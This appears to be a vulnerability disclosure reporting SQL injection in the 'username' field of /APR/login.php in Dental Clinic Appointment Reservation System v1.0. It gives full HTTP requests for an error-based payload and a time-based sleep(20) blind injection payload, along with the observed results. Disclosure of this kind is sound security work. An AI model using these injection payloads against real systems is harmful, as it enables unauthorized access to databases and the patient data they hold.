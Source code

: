 # Dental Clinic Appointment Reservation System v1.0 has SQL injection

BUG_Author:niclo

Vulnerability File: /APR/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1:username=a'&password=b&submit1=

```
POST /APR/login.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

username=a'&password=b&submit1=
```

An error occurred in the sql statement

![image](https://github.com/nightcloudos/picture/blob/main/error.png)

Payload2:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit1=

```
POST /APR/login.php HTTP/1.1
Host: localhost
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit1=
```

The server's response time is 20 seconds

![image](https://github.com/nightcloudos/picture/blob/main/twenty.png)
